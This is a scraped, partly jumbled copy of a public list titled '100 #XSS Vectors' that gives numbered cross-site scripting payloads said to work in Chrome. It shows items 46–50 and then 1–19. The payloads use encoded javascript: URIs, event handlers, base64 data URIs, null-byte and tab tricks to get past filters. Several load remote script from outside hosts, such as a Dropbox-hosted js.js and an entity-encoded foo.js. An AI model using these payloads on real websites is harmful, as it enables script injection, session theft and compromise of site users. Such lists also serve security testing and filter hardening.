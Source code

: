46) <form><button formaction=javascript&colon;alert(1)>CLICKME
 
47) <math><a xlink:href="//jsfiddle.net/t846h/">click
 
48) <object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+></object>​
 
49) <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
 
50) <a href="data:text/html;blabla,&#60&#115&#99&#114&#105&#112&#116&#32&#115&#114&#99&#61&#34&#104&#116&#116&#112&#58&#47&#47&#115&#116&#101&#114&#110&#101&#102&#97&#109&#105&#108&#121&#46&#110&#101&#116&#47&#102&#111&#111&#46&#106&#115&#34&#62&#60&#47&#115&#99&#114&#105&#112&#116&#62&#8203">Click Me</a>​


                                      100 #XSS Vectors
                                      ----------------
                                       @soaj1664ashar

Below you will find 100 XSS vectors including 50 new XSS attack vectors. All vectors works like charm in Chrome :-) I have also specified browser name alongside in case of some vectors that do not work in Chrome. 


1) <iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>

2) <svg><style>{font-family&colon;'<iframe/onload=confirm(1)>'

3) <input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"

4) <sVg><scRipt %00>alert&lpar;1&rpar; {Opera}

5) <img/src=`%00` onerror=this.onerror=confirm(1) 

6) <form><isindex formaction="javascript&colon;confirm(1)"

7) <img src=`%00`&NewLine; onerror=alert(1)&NewLine;

8) <script/&Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&Tab;></script>

9) <ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?

10) <iframe/src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">

11) <script /*%00*/>/*%00*/alert(1)/*%00*/</script /*%00*/

12) &#34;&#62;<h1/onmouseover='\u0061lert(1)'>%00

13) <iframe/src="data:text/html,<svg &#111;&#110;load=alert(1)>">

14) <meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>

15) <svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script

16) <svg><script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}

17) <meta http-equiv="refresh" content="0;url=javascript:confirm(1)">

18) <iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>

19) <form><a href="javascript:\u0061lert&#x28;1&#x29;">X
